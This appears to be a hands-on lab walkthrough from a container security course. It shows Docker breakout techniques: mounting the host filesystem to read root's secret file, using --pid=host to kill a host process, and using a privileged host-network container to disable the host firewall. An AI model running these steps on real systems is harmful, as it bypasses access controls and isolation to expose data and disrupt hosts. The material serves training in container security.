

## Container Breakout - Multiple Attacks

### Volume Mounts

* ssh into the container virtual lab or open Terminal in the VM

    ```
    ssh root@<IPAddrGivenToYou>
    password: <passwordGivenToYou>

    ```

* Run `whoami` to confirm that you are the `root` user.

```commandline
root@we45:~# whoami
root
root@we45:~#
```

* Validate that there's a secrets file in the root dir with `cat secret.txt`

* Run `sudo su we45` to login as a normal user.

    ```commandline
    root@we45:~# sudo su we45
    we45@we45:~$
    ```

* Check if the user `we45` has access to `docker` by running `docker images` and `docker ps`

    ```commandline
    we45@we45:~$ docker images
    we45@we45:~$ docker ps
    ```

* Run `cat /root/secret.txt` read the content of `secret.txt` file that was created by `root` user.

```commandline
we45@we45:~$ cat /root/secret.txt
cat: /root/secret.txt: Permission denied
```

* Run `docker run -ti --rm -v /root:/hostFS/ alpine sh` as `we45`(non-root user)

```commandline
we45@we45:~$ docker run -ti -v /:/hostFS/ alpine
/ #
```

* Run `cat /hostFS/root/secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat /hostFS/root/secret.txt
This is a secret
```

* Run `exit` to exit from the container.

```commandline
/hostFS/root # exit
we45@we45:~$
```

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

### PID Boundary

* Run `tmux` to create a multiplexed terminal. Your screen should have a band below that looks like this:


* Now, type `ctrl + b + "` to split panes horizontally. We're going to operate on two panes



* Let's first operate on the top pane, with the command `ctrl + b + (upper arrow key)`
* Let's first create our "super important process" with the following commands: 
    ```
    command='while true\ndo\necho "Super important process running $$"\nsleep 3\ndone'
    printf "$command" > /root/super_important_process.sh && chmod +x /root/super_important_process.sh
    ```

* Now, run our program `./root/super_important_process.sh`. It should start running a "super important" process
* Let's operate on the lower pane with `ctrl + b + (lower arrow key)`
* Here, run `docker run -ti --pid=host --privileged alpine sh`
* Now run `ps aux` and look at the process tree. You will see that your container's processes and the host's processes have NOT been isolated
* Now run `ps aux | grep 'super'` to triangulate the super_important process. get the `pid` of the process
* now run `kill <pid>` and you will see that the super important process (running on host) is now terminated.


* Let's dismantle the multiplexed terminal session, with `ctrl + b + x`, you will be presented with a prompt like this:


* press `y` to select `yes` and the window shuts down. Do the same with the other tmux session as well

### Host Network

* Check if `ufw` is enabled on the host machine by running `ufw status`

```commandline
root@we45:~# ufw status
Status: inactive
```

* Enable `ufw` by running `ufw enable` and `ufw allow ssh`

* Run `docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask`

```
docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
WARNING: Published ports are discarded when using host network mode
de08041d12e0ed8f4aa0ee3ceeef65c760baee2b9d1c839a89d5ba642a506d03
```

* Now run `docker ps` and copy the `CONTAINER_ID` of the running container

```
[root@container-training-centos ~]# docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
de08041d12e0        abhaybhargav/vul_flask   "python app.py"     3 seconds ago       Up 2 seconds                            dreamy_ptolemy
```

* Now run `docker exec -it <container ID> /bin/bash` you should now be in the shell environment in the container

* Run `apt update && apt install -y ufw` to install the firewall program

* Run `ufw status` and you should see that the firewall is active.

* Now run `ufw disable` to disable the firewall from the Container

* Run `exit` to exit the docker shell and run `clean-docker`